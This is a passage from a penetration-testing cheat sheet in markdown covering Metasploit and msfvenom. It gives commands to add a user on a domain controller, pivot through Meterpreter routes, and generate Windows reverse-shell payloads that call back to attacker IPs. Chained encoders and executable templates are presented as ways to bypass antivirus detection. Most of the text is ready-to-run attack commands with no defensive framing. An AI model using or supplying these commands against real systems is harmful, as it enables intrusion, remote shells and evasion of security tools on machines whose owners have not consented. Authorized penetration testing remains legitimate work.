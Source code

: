                 * attempt to create user on a domain controller: `add_user phonexicum qwerty123456 -h 192.168.20.30`
                * pivote into other systems:

                    ```
                    meterpreter> run get_local_subnets
                    meterpreter> background
                    msf exploit(handler)> route add <localsubnet> <netmask> [session] run
                    ```
                * list all post modules: `run [TAB] [TAB]`

    *   [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) shellcode/payload generator
        <br> fast example: `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=12344 -f c --platform windows -a x86 -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -i 5`

        * [ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper) - mutlibyte XOR or AES encrypted shellcode

        <br>
        msfvenom help:

        ``` bash
        msfvenom --help-formats # list supported output formats
        msfvenom --help-platforms # list supported platforms
        msfvenom -l payloads|encoders|nops|all # list available payloads|encoders|nops|all
            ## best encoder is usually `x86/shikata_ga_nai`
            ## for payloads search better use msfconsole for search and selection
        msfvenom -p [payload] --payload-options # check payload options

        ## --smallest - generate the smallest possible payload
        msfvenom -k -x cmd.exe # specify a custom executable file to use as a template
            ## -k - preserve the template’s normal behaviour and run payload as a separate thread
            ## built-in templates: `/usr/share/metasploit-framework/data/templates`
        ```

        * `-x` flag helps to avoid AV detection
        *   main encoder's purpose is to avoid bad chars, however chaining various encoders can help to bypass AV

            ```
            msfvenom -p windows/shell_reverse_tcp LHOST=172.16.0.250 LPORT=12346 -f exe -a x86 --platform windows -b "\x00\x0a\x0d" -i 15 -e x86/shikata_ga_nai -f raw | \
            msfvenom -a x86 --platform windows -e x86/countdown -i 17  -f raw | \
            msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 12  -f exe >shell_reverse_tcp2.exe
            ```
